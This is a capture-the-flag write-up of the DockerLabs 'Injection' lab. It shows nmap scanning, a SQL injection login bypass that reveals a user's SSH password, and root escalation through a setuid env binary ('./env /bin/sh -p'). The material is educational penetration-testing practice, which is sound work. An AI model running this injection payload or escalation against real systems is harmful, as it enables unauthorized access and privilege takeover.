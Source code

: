 # Write Up Injection

**Difficulty:** Super fáil<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the injection folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
The first thing that we do is a general reconnaissance with nmap over the victym machine, with the purpose to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Once we have obtained the open ports we can do an exhaustive scan with recon scripts with the purpose to obtain the services that are running on each port and their's version.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

In this way we discovered that the service running on port 22 (FTP port) is OpenSSH 8.9p1 and on port 80 (http port) an Apache httpd 2.4.52 web service is running.

## Exploit
As we have seen that there is a web service running on the victim machine, we proceed to view the web, adding the domain (in this case it does not have one and we will simply put the name of the machine) to the */etc/hosts* file of our virtual machine (it is the local DNS configuration file).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once the */etc/hosts* file is configured, we proceed to access the website, and we see that it is a login form.

![Web](../.sources/injection-login.png)

Let's try entering the basic parameters to check for SQL injection. To do this, enter the string *admin' OR '1' = '1'; --* in the username section and anything else for password (in my case, I put *hacked!*) to allow the form to be submitted. If everything goes well, you'll be able to log in as the administrator (if it doesn't work with the admin user, you can change it to root, administrator, and similar, but without wasting too much time).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

And bingo! We're in and we get Dylan's credentials.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Having obtained these credentials, we can try to access through the also open ssh port.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

And we alredy get access to the machine!

## Privilege escalation

To be able to use the console in a more comfortable way we can do the following treatment of the terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Now that we have a terminal we look for files (preferably binary) with the root user and the *setuid* flag active and we find the following:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

So we use the env command as follows and elevate privileges to root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```
